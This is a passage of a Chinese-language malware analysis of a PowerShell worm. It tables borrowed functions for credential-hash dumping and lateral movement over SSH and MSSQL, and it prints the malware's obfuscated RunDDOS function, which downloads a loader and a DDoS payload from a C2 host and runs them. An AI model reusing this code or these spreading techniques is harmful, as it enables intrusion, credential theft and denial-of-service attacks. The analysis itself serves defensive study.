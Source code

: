 | `IPTOIPS`             | 从网段掩码生成所有可能的 IP 地址                     |
| `GetNetEST`           | 分析系统已建立的网络连接发现新目标                   |
| `Get-MD4Hash`         | 生成凭据的 MD4 哈希（NTLM 格式），用于密码攻击       |
| `Invoke-SSHCommand`   | 通过 SSH 协议执行远程命令，用于 Linux 系统传播       |
| `Invoke-MSSQLCommand` | 通过 MSSQL 数据库执行远程命令，利用 xp_cmdshell 功能 |
| `Get-PassHashes`      | 从本地系统 SAM 数据库提取密码哈希，用于横向移动      |

大多函数能在网络上找到一模一样的副本，同时期的病毒也有用到相同的函数，比如：

- `$RemoteScriptBlock`: [Invoke-ReflectivePEInjection.ps1#L229](https://github.com/BC-SECURITY/Empire/blob/1b7b2a586ee605bfe417a047fe0af6bebc0395ab/empire/server/data/module_source/management/Invoke-ReflectivePEInjection.ps1#L229)
- `Get-PassHashes`: [Get-PassHashes.ps1#L16](https://github.com/xtr4nge/FruityC2/blob/6e9826569940c41fc24c692cbb7f5dceba60d956/modules/core/Get-PassHashes.ps1#L16)
- `make_smb1_anonymous_login_packet`: [Exploit-EternalBlue.ps1#L397](https://github.com/nettitude/PoshC2/blob/f6f13309188c9f6467867d4afd27aaefb70bd9b8/resources/modules/Exploit-EternalBlue.ps1#L397)

这些函数可能来自 C2 框架或漏洞利用工具，不详细进行分析了，只专注于病毒作者自定义的函数。

#### RunDDOS

52 行，`RunDDOS` 函数下载 `http://$nic/w/cohernece.txt` 和 `http://$nic/w/logos.png`，另存为 `cohernece.exe` 和 `java-log-9527.log`。

`cohernece.exe` 是加载器，`java-log-9527.log` 是 DDOS 程序，前者检测沙盒环境，如果不在沙盒环境则执行后者进行 DDOS 攻击。

```powershell linenums="52"
function RunDDOS([String]$FileName,[String]$Hash){
    $updateFlag = $False
    if ((teSt-`Pa`TH ("$env:temp\$FileName"))){
        $filehash = md5hash("$env:temp\$FileName")
        if( $filehash -eq $Hash){
            $updateFlag = $False
        }else{
            Remove-Item "$env:temp\$FileName" -recurse
            $updateFlag =  $True
        }
    }else{
        $updateFlag =  $True
    }
    if($updateFlag){
        DoWN`l`Oa`D_FiLE "http://$nic/w/cohernece.txt" "$FileName"
    }
    $tempfilepath = $env:temp.replace("\","\\")
    Get-WmiObject Win32_Process -Filter "ExecutablePath = '$tempfilepath\\$FileName'" | Invoke-WmiMethod -Name Terminate | Out-Null
    if ((teSt-`Pa`TH ("$env:temp\java-log-9527.log"))){
        Remove-Item "$env:temp\java-log-9527.log" -recurse
        Sl`EEp -Seconds 1
    }
    DoWn`loa`D`_F`ile "http://$nic/w/logos.png" ('jav'+'a-log-952'+'7.'+'log')
    Sl`EEp -Seconds 1
    Sta`RT`-PROCeSS -NoNewWindow "$env:temp\$FileName"
}
```
